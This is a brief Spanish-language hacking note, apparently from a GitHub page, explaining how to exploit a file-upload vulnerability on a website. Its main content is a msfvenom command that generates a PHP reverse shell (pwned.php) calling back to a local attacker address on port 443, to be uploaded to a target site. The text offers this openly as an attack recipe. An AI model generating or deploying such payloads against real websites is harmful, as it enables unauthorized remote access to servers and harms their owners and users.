 En caso de que queramos explotar una vulnerabilidad de FileUpload en una página tendremos que crear una ReverseShell de la siguiente forma.

````
msfvenom -p php/reverse_php LHOST=192.168.1.138 LPORT=443 -f raw > pwned.php
`````

Una vez ejecutemos el comando se creará nuestra ReverseShell para subir a una página y que sea accesible.